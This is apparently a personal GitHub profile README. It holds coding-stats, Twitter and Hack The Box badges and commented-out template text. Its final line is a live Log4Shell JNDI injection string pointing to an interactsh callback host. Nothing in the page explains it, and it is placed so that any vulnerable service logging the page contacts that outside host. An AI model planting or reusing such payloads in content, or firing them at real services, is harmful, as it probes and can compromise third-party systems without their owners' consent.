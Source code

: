 ### Hi 👋🦆     
[![wakatime](https://wakatime.com/badge/user/7ba5a68a-56a6-4dc6-8013-858ad60eb0b8.svg)](https://wakatime.com/@7ba5a68a-56a6-4dc6-8013-858ad60eb0b8)  <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" height="20" /></a> 
<br>
<a href="https://app.hackthebox.com/profile/435777" target="blank">
<img src="https://www.hackthebox.eu/badge/image/435777" alt="lwlx on Hack The Box" height=""/></a> 

[![Lawlez's GitHub Stats](https://github-readme-stats.vercel.app/api?username=Lawlez&theme=transparent&count_private=true&show_icons=true&include_all_commits=true)](https://dev.lwlx.xyz)  [![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=Lawlez&theme=transparent&layout=compact&langs_count=8&hide=html,css)](https://dev.lwlx.xyz)
![](https://github-readme-streak-stats.herokuapp.com/?user=Lawlez&theme=transparent&hide_border=false)<br/>


<!--[![Coding Time stats](https://github-readme-stats.vercel.app/api/wakatime?username=0x&layout=compact&theme=dark&height=20)](https://dev.lwlx.xyz)-->
<!--
**Lawlez/Lawlez** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.
<p align="left"> <a href="https://twitter.com/lawlez_" target="blank"><img src="https://img.shields.io/twitter/follow/lawlez_?logo=twitter&style=for-the-badge" alt="lawlez_" /></a> </p>
Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
${jndi:ldap://c6tfggt2vtc0000gkj1ggdp8aecyyyyyb.interactsh.com/ lwlx}
